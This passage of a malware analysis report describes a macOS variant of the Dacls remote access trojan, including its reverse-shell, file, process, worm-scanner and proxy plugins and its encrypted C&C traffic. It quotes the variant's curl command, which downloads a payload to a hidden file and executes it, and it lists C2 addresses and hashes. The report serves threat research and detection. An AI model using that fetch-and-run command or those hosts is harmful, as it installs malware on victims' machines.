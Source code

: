  CMD plugin The cmd plugin is similar to the “bash” plugin in the Linux rat which  receives and executes commands by providing a reverse shell to the C&C server.     File Plugin The file plugin has the capability to read, delete, download, and search files within a directory. The only difference between the Mac and Linux version is that the Mac version does not have the capability to write files (Case 0).     Process plugin The process plugin has the capability of killing, running, getting process ID and collecting process information.     If the “/proc/%d/task” directory of a process is accessible, the plugin obtains the following information from the process where %d is the process ID: Command line arguments of the process by executing “/proc/ %/cmdline” Name, Uid, Gid, PPid of the process from the “/proc/%d/status” file.  Test plugin The code for the Test plugin between Mac and Linux variant is the same. It checks the connection to an IP and Port specified by the C&C servers. RP2P plugin The RP2P plugin is a proxy server used to avoid direct communications from the victim to the actor’s infrastructure.     LogSend plugin The Logsend plugin contains three modules that:  Check connection to the Log serverScan network (worm scanner module)Execute long run system commands    This plugin sends the collected logs using HTTP post requests.     An interesting function in this plugin is the worm scanner. The “start_worm_scan” can scan a network subnet on ports 8291 or 8292. The subnet that gets scanned is determined based on a set of predefined rules. The following diagram shows the process of selecting the subnet to scan.     Socks plugin The Socks plugin is the new, seventh plugin added to this Mac Rat. It is similar to the RP2P plugin and acts as an intermediary to direct the traffic between bot and C&C infrastructure. It uses Socks4 for its proxy communications.     Network Communications C&C communication used by This Mac RAT is similar to the Linux variant. To connect to the server, the application first establishes a TLS connection and then performs beaconing and finally encrypts the data sent over SSL using the RC4 algorithm.       Both Mac and Linux variants use the WolfSSL library for SSL communications. WolfSSL is an open-source implementation of TLS in C that supports multiple platforms. This library has been used by several threat actors. For example, Tropic Trooper used this library in its Keyboys malware.    The command codes used for beaconing are the same as the codes used in Linux.dacls.  This is to confirm the identity of the bot and the server.    The RC4 key is generated by using a hard-coded key.     Variants and detection We also identified another variant of this RAT which downloads the malicious payload using the following curl command:  curl -k -o ~/Library/.mina https://loneeaglerecords.com/wp-content/uploads/2020/01/images.tgz.001 > /dev/null 2>&1 && chmod +x ~/Library/.mina > /dev/null 2>&1 && ~/Library/.mina > /dev We believe this Mac variant of the Dcals RAT is associated with the Lazarus group, also known as Hidden Cobra and APT 38, an infamous North Korean threat actor performing cyber espionage and cyber-crime operations since 2009.  The group is known to be one of the most sophisticated actors, capable of making custom malware to target different platforms. The discovery of this Mac RAT shows that this APT group is constantly developing its malware toolset. Malwarebytes for Mac detects this remote administration Trojan as OSX-DaclsRAT.       IOCs 899e66ede95686a06394f707dd09b7c29af68f95d22136f0a023bfd01390ad53 846d8647d27a0d729df40b13a644f3bffdc95f6d0e600f2195c85628d59f1dc6 216a83e54cac48a75b7e071d0262d98739c840fd8cd6d0b48a9c166b69acd57d d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd loneeaglerecords[.]com/wp-content/uploads/2020/01/images.tgz.001  67.43.239.146 185.62.58.207 50.87.144.227
